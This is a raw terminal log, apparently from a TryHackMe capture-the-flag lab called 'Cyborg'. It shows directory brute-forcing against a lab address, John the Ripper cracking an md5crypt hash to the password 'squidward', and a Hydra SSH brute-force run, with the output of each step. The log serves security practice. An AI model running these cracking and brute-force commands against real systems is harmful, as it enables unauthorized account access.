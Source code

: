 [2K[1B[3A[[36m####################[34m[0m[0m] - 5s      1942/1942    368/s   http://10.10.255.20
[[36m####################[34m[0m[0m] - 5s      1942/1942    385/s   http://10.10.255.20/etc
[[36m####################[34m[0m[0m] - 4s      1942/1942    396/s   http://10.10.255.20/admin
[3A
[2K[1B
[2K[1B
[2K[1B[3A[[36m####################[34m[0m[0m] - 5s      1942/1942    368/s   http://10.10.255.20
[[36m####################[34m[0m[0m] - 5s      1942/1942    385/s   http://10.10.255.20/etc
[[36m####################[34m[0m[0m] - 4s      1942/1942    396/s   http://10.10.255.20/admin
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mctf [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mthme [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1mCyborg [0;38;5;240;49;22m [0mjoh [K[Kn [K[Khn --wordlist=/opt/t[Kwordlist/john/rockyou2.txt h
hash.txt  home/     
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mctf [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mthme [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1mCyborg [0;38;5;240;49;22m [0mjohn --wordlist=/opt/wordlist/john/rockyou2.txt hash.txt 
Loaded 1 password hash (md5crypt [MD5 32/64 X2])
No password hashes left to crack (see FAQ)
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mctf [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mthme [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1mCyborg [0;38;5;240;49;22m [0mjohn --show h
hash.txt  home/     
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mctf [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mthme [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1mCyborg [0;38;5;240;49;22m [0mjohn --show home/[K[K[K[Kash.txt 
?:squidward

1 password hash cracked, 0 left
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mctf [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mthme [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1mCyborg [0;38;5;240;49;22m [0mhydra -L users.txt -p squidward ssh://$IP
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-01-26 06:50:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://10.10.255.20:22/
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-01-26 06:50:28
[0;38;5;231;48;5;31;1m leaundre [0;38;5;31;48;5;240;22m [0;38;5;250;48;5;240m… [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mctf [0;38;5;245;48;5;240;22m [0;38;5;250;48;5;240mthme [0;38;5;245;48;5;240;22m [0;38;5;252;48;5;240;1mCyborg [0;38;5;240;49;22m [0m/opt/tools/borg-dir/
_bisect.cpython-37m-x86_64-linux-gnu.so           binascii.cpython-37m-x86_64-linux-gnu.so
_blake2.cpython-37m-x86_64-linux-gnu.so           borg/
_bz2.cpython-37m-x86_64-linux-gnu.so              borg.exe
_codecs_cn.cpython-37m-x86_64-linux-gnu.so        fcntl.cpython-37m-x86_64-linux-gnu.so
_codecs_hk.cpython-37m-x86_64-linux-gnu.so        grp.cpython-37m-x86_64-linux-gnu.so
_codecs_iso2022.cpython-37m-x86_64-linux-gnu.so   importlib_metadata-1.7.0-py3.7.egg-info/
_codecs_jp.cpython-37m-x86_64-linux-gnu.so        include/
_codecs_kr.cpython-37m-x86_64-linux-gnu.so        lib/
_codecs_tw.cpython-37m-x86_64-linux-gnu.so        lib2to3/
_contextvars.cpython-37m-x86_64-linux-gnu.so      libacl.so.1
_csv.cpython-37m-x86_64-linux-gnu.so              libattr.so.1
_ctypes.cpython-37m-x86_64-linux-gnu.so           libbz2.so.1.0
_datetime.cpython-37m-x86_64-linux-gnu.so         libcrypto.so.1.1
_decimal.cpython-37m-x86_64-linux-gnu.so          libffi.so.6